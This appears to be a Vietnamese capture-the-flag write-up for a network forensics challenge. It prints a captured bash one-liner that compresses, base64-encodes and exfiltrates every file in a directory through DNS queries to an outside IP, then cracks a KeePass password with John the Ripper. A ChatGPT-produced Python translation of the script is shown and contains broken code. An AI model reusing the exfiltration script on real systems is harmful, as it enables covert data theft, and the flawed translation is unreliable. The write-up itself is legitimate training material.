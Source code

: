 ## Đề 
> We received a letter threatening that our data has been compromised and if we do not pay the ransom, all will be made public. We wonder how he managed to get it even though we protected it carefully
## Link challenge
> https://ctf.viblo.asia/puzzles/netlab2-protected-vault-hf0wmhwguj0
## Giải 
- Sau khi mở file lên bằng wireshark thứ đập vào mắt em đầu tiên là 1 file update.sh
- ![image](image/12.PNG)
- Sau khi save file xuống em thu được 1 đoạn scipt sau 
```
for f in $(ls .); do s=4;b=50;c=0; for r in $(for i in $(gzip -c $f| base64 -w0 | sed "s/.\{$b\}/&\n/g");do if [[ "$c" -lt "$s"  ]]; then echo -ne "$i-."; c=$(($c+1)); else echo -ne "\n$i-."; c=1; fi; done ); do dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58)|tr "+" "}"|tr "/" "{"` +short; done ; done
```
- Vì em không biết đọc nên em nhờ chatgpt chuyển qua python cho dễ đọc
```
import os
import subprocess
import gzip
import base64

def main():
    # Duyệt qua tất cả các tệp trong thư mục hiện tại
    for filename in os.listdir('.'):
        s = 4  # Số lượng ký tự mỗi dòng
        b = 50 # Độ dài của mỗi chunk base64
        c = 0  # Biến đếm

        # Mở tệp gzip và đọc nội dung
        with gzip.open(filename, 'rb') as f:
            content = f.read()
            # Encode nội dung bằng base64
            encoded_content = base64.b64encode(content).decode('utf-8')
            # Chia thành các chunk có độ dài b
            split_encoded_content = [encoded_content[i:i+b] for i in range(0, len(encoded_content), b)]

            # Duyệt qua các chunk
            for chunk in split_encoded_content:
                # In chunk và dấu gạch nối
                if c < s:
                    print(chunk + "-.", end='')
                    c += 1
                else:
                    print("\n" + chunk + "-.", end='')
                    c = 1
        
        # Duyệt qua các chunk và thực hiện lệnh dig cho mỗi chunk
        for chunk in split_encoded_content:
            # Tạo lệnh dig
            cmd = "dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 {} +short".format(chunk + filename.encode('utf-8').decode('base58').replace("+", "}").replace("/", "{"))
            # Thực thi lệnh dig
            subprocess.run(cmd, shell=True)

if __name__ == "__main__":
    main()

```
- Tiếp theo em lấy tất cả những dữ liệu thu thập được về 1 file data.txt để bắt đầu decode
- ![image](image/13.PNG)
- ![image](image/14.PNG)
- Có thể thấy phía sau có vài đoạn giống nhau đâu là mã hoá base58 để thể hiện tên file 
- ![image](image/15.PNG)
- Bây giờ xem sẽ xuất các strings có cùng tên file ra rồi xem nội dung bên trong với cybercheff
- Để làm được thì em sẽ thực hiện 1 vài bước sau :
1. Chuyển đổi các kí tự {, } thành /, +
2. Xoá tên phía sau
3. Xoá kí tự -.
4. Decode base64
- ![image](image/16.PNG)
**File thứ nhất**
- ![image](image/17.PNG)
**File thứ 2**
- ![image](image/18.PNG)
**File thứ 3**
- ![image](image/19.PNG)
- Ở đây ta không có mật khẩu
**File thứ 4**
- ![image](image/20.PNG)
**File thứ 5**
- ![image](image/21.PNG)
**File thứ 6**
- ![image](image/22.PNG)
- Và cuối cùng là 1 file update.sh
- Chỉ có dữ kiện là file bị khoá nên em crack thử pass
```
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iloveyou         (Flag)     
1g 0:00:00:00 DONE (2024-03-07 03:50) 3.846g/s 61.53p/s 61.53c/s 61.53C/s 123456..jessica
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
- Mật khẩu là iloveyou
- ![image](image/23.PNG)
> Flag : Flag{NetLab2_DNS_3xf1ltr4t10n_15_5t3al7hy}
